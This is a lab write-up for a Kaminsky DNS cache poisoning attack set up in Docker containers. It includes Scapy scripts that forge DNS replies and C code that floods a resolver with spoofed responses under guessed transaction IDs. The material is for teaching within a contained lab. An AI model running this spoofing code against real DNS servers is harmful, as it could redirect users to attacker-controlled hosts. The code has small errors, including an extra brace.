


# Introduction
This lab conducts a DNS attack, kamisky attack

# Task 1: Testing the DNS Setup
We will first need to use `dockps` to list out all the docker containers that is running and locate the `user-10.9.0.5` container's id.

Use `docker sh <containter-id>` to get into the shell of the container

## Observations

### Query the attacker's dns server
Run `dig ns.attacker32.com` to access the attacker's dns server

#### Result


As we can see from the output, the answer section of `ns.attacker32.com` is coming from `10.9.0.153` which is what we defined in the `attacker32.com.zone` file. Which means the dns server is working

### querying example.com
Run `dig example.com` to check for the ip address that match the domain of `example.com`

#### Result


From the screenshot, we can tell that the original ip address of `example.com` is coming from `93.184.216.34` which is what we are expecting

### query example.com using attacker dns
Run `dig@ns.attacker32.com www.example.com` to direct the dns query of `www.example.com` to the attacker's dns server

#### Result


From the screenshot, we can tell that the ip address is different from what we saw previously in [normal example.com query](#result-1), this is because we are querying from the attacker's dns server, and the attacker's dns server has a zone file for `www.example.com` stating that its address should be `1.2.3.5`  

## Section Conclusion
From the above 3 commands, we can tell that the dns server configuration is working as intended, we can start trying to carry out the attack


# Task 2: Construct DNS request
```python
from scapy.all import IP,UDP,RandShort,send
from scapy.layers.dns import DNSQR,DNS

name = 'example.com'
qdesc = DNSQR(qname=name)
dns = DNS(id = 0xAAAA, qr=0,qdcount=1,ancount=0,nscount=0,arcount=0,qd=qdesc)
ip = IP(dst='10.9.0.53',src='10.9.0.1')
udp = UDP(dport=53,sport=RandShort(),chksum=0)

request = ip/udp/dns
send(request,iface="br-e03c588d3885")
```

in the above code, we send a dns packet to the local dns server at `10.9.0.53` about the address `example.com`
## Running the code 
Make sure the above code is in the `volumes` folder so that docker can map whatever that is in this folder to the docker's `volumes` folder

Get into the attacker's container shell using `dockps` to list out the container ids and `docksh <container-id>` to access the shell. Navigate to the `volumes` folder using `cd volumes`

Open `Wireshark` and watch for your docker network's subnet activity

Run `python3 construct_pack.py` to send the dns packet to the intended local dns host


## Result

From the wire shark screenshot, we can see that in the DNS response packet, in the `answer section` the ip address of `example.com` is `93.184.216.34` which is the same as what we previously found out in the `dig command`

# Task3 Spoof DNS replies
```python
from scapy.all import IP,UDP,RandShort,send
from scapy.layers.dns import DNSQR,DNS,DNSRR

domain = 'example.com'
name = 'www.example.com'
ns = "ns.attacker32.com"
qdesc = DNSQR(qname=name)
anssec = DNSRR(rrname=name,type='A',rdata='1.1.2.2',ttl=259200)
nssec = DNSRR(rrname=domain,type='NS',rdata=ns,ttl=259200)
dns = DNS(id = 0xAAAA, aa=1,qr=1,rd=0,qdcount=1,ancount=1,nscount=1,arcount=0,qd=qdesc,an=anssec,ns=nssec)

ip = IP(dst='10.9.0.53',src='93.184.216.34',chksum=0)
udp = UDP(dport=33333,sport=53,chksum=0)

pkt = ip/udp/dns

send(pkt)
```
## Execution
Go into the attacker shell and send the packet using `python3 spoof_replies.py`


## Result 

From the wireshark output, we can tell that this packet is a valid packet
From the dns header, we can tell that this packet is a `dns query response` packet and the address of the example is `1.1.2.2`

There is also a name server section that is being received which stats that the name sever for `example.com` goes to `ns.attacker32.com`

# Task 3: Kaminsky attack

## Constructing request and response packet
In the python file [kaminsky.py](./volumes/kaminsky.py) 

```python
with open('ip_resp.bin','wb') as f:
    f.write(bytes(pkt))
with open('ip_req.bin','wb') as f:
    f.write(bytes(request))
```
we write the packet to different binary files for the c code to access and modify later.

### View packet content
To view the content of the packet
```python
wrpcap('ip_req.pcap',request)
wrpcap('ip_resp.pcap',pkt)
```
These two lines generate a `pcap` file that can be viewed in `wireshark`, we can then inspect the byte position in the content section in wireshark. With these byte positions we can then modify the relevant content in the c code to generate packets

## Modfiy the packet content
In [attack.c](volumes/attack.c) we mainly modified two functions, `send_dns_request` and `send_dns_response`

### send_dns_request
```c
void send_dns_request(char name[], char req_pkt[], int pkt_size) {
  // Students need to implement this function
  memcpy(req_pkt + 41, name, 5);
  send_raw_packet(req_pkt, pkt_size);
}
```
In this function, we modify the content at the 41 byte of the request packet, replace it with the randomly generated name and send the request packet tothe local dns server

The 41th byte position is derived from [wireshark capture packet file](#view-packet-content)

### send_dns_response
```c
void send_dns_response(unsigned char *pkt, int pktsize, unsigned char *src,
                       char *name, unsigned short id) {
  // the C code will modify src,qname,rrname and the id field
  // src ip at offset 12
  int ip = (int)inet_addr(src);
  memcpy(pkt + 12, (void *)&ip, 4);
  // qname at offset 41
  memcpy(pkt + 41, name, 5);
  // rrname at offset 64
  memcpy(pkt + 64, name, 5);
  // id at offset 28
  unsigned short transid = htons(id);
  memcpy(pkt + 28, (void *)&transid, 2);
  // send the dns reply out
  send_raw_packet(pkt, pktsize);
}
}
```
In this function, we modify both the name in the question and the answer field to the randomly generated name
### Main function
In the main function we will call these two functions as follows
```c
  while (1) {
    // Generate a random name with length 5
    char name[6];
    name[5] = '\0';
    for (int k = 0; k < 5; k++)
      name[k] = a[rand() % 26];

    send_dns_request(name, ip_req, n_req);

    unsigned short transid = 0;
    for (int i = 0; i < 100; i++) {
      send_dns_response(ip_resp, n_resp, "93.184.216.34", name, transid);
      send_dns_response(ip_resp, n_resp, "93.184.216.34", name, transid);
      transid += 1;
    }

  }
```
Sending dns request should be quite straight forward, we send a request packet with a randomly generated name
With the same randomly generated name, we will loop through about 100 times to send out the dns response packet, with the same ranomly generated name


### Running the kaminsky attack
Clear the dns cache on the local dns server using `rndc flush`
Make sure that the corresponding packet binary is generated from [the previous section](#constructing-request-response-packet)
Run `make run` in the attacker's machine, this command will first build the c code and run it.

### Result
In the local dns server we can check if the attack is successful by running the command `rndc dumpdb -cache && grep attacker /var/cache/bind/dump.db` which will filter out the dns cache record with `attacker` in it.

We can see from the output that after a short while, we have found a cache record


Now to double validate that our attack works, lets get into the shell of the user machine and run `dig example.com`



From the output we can tell that the attack is successful as the ip for example.com now is `1.2.3.4` and that is exactly what we want to achieve


